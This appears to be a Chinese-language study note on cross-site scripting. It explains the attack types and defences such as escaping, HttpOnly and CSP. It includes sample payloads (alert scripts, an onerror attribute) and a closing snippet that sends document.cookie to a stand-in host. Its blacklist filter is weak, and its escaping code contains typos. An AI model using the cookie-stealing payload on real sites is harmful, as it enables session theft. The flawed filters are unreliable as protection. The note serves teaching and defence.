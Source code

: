 # XSS

## xss定义
> XSS Cross Site Script 中译是**跨站脚本攻击**；其原本缩写是 CSS，但为了和层叠样式表(Cascading Style Sheet)有所区分，因而在安全领域叫做 XSS。

## xss原理
> XSS 攻击是指攻击者在网站上注入恶意的客户端代码，通过恶意脚本对客户端网页进行篡改，从而在用户浏览网页时，对用户浏览器进行控制或者获取用户隐私数据的一种攻击方式。

> 攻击者对客户端网页注入的恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。有很多种方式进行 XSS 攻击，但它们的共同点为：将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。


## xss攻击方式
  **反射型** domparse
    定义: 反射型 XSS 只是简单地把用户输入的数据 “反射” 给浏览器，这种攻击方式往往需要攻击者诱使用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。
    发出请求时，出现在 url 中，服务器解析响应后, xss 代码响应内容一起传回给浏览器。最后执行在浏览器
    <iframe src="//baidu.comt.html">
    解决：链接加密
  **存储型**
    定义: 存储型 XSS 会把用户输入的数据 "存储" 在服务器端，当浏览器请求数据时，脚本从服务器上传回并执行。这种 XSS 攻击具有很强的稳定性。
    差别: 差别仅在于提交代码仅在于服务器端 数据库 内存 文件
    场景: 攻击者在社区或论坛上写下一篇包含恶意 JavaScript 代码的文章或评论，文章或评论发表后，所有访问该文章或评论的用户，都会在他们的浏览器中执行这段恶意的 JavaScript 代码。
    <script>alert(1)</script>

  **基于DOM**
    定义: 基于 DOM 的 XSS 攻击是指通过恶意脚本修改页面的 DOM 结构，是纯粹发生在客户端的攻击。

## xss 攻击点
  1、HTML 节点内容
  2、HTML 属性 超出属性本身 <img src="null" onerroe = "alert(1)"> <p onclick="alert('aaa')"></p>
  3、JS 代码
  4、富文本


## xss防御措施

- X-XSS-Protection
防御的是 反射型，即url参数再次出现在页面中，且出现在HTML内容或者属性中。有限的不能依赖这种手段。
  - ctx.set('X-XSS-Protection', 0) // 关掉
  - ctx.set('X-XSS-Protection', 1) // 打开 默认值
  - ctx.set('X-XSS-Protection', 1, url) // 打开 发送到次url数据

- 1、HTML节点内容：转译
    编码
        entity编码
    过滤
        dom属性 onerror
        style节点，script  iframe节点
    校正   
        编码直接解码entity
        dom parse转化 校正不配对的dom标签
    HttpOnly 最早由微软提出，至今已经成为一个标准。浏览器将禁止页面的Javascript 访问带有 HttpOnly 属性的Cookie。
        通常 Cookie 中都包含了用户的登录凭证信息，攻击者在获取到 Cookie 之后，则可以发起 Cookie 劫持攻击。所以，严格来说，HttpOnly 并非阻止 XSS 攻击，而是能阻止 XSS 攻击后的 Cookie 劫持攻击。
    输入检查
    恶意表单
    HTML：xss转义 < > "" ''  破坏结构
    页面之前必须加以encode
    js:innerHTML转义
    css:expression计算
    输入检查 decodingMap

- 2、HTML属性
  - 转译 HTML 属性
```js
var escapeHTML = function (str) {
  if(!str) return ''
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  return str
}
```
- JS 代码
```js
var escapeForJS = function (str) {
  if(!str) return ''
  str = str.replace(/\\/g, '\\\\"')
  str = str.replace(/"/g, '\\"')
  return str
}
// 或者JSON.stringify(str)
```

- 富文本

富文本：
    黑名单过滤，指定标签，正则表达过滤；
    白名单保留部分标签和属性，只允许指定标签麻烦数据结构组装，
```js
// 黑名单
var xssFilter = function (html) {
  if(!html) return ''
  html = html.replace(/<\s*\/?script\s*>/g , '')
  html = html.replace(/javascript:[^'"]*/g , '')
  html = html.replace(/onerror\s*=\s*['"]?[^'"]*['"]?/g , '')
  return html
}
// 白名单
// dom 遍历元素 cheerio
whiteList()
```

## CSP  Content Security Policy
- 内容安全策略
- 用于指定哪些内容可以执行
```js
ctx.set(`Content-Security-Policy`,`default-src 'self'`) //同域
```

## 案例

1、站酷搜索
```js
var img = document.createElement('img')
img.width = 0
img.height = 0
img.src = 'http://your.host.com/test.php?cookie='+encodeURIComponent(document.cookie)
```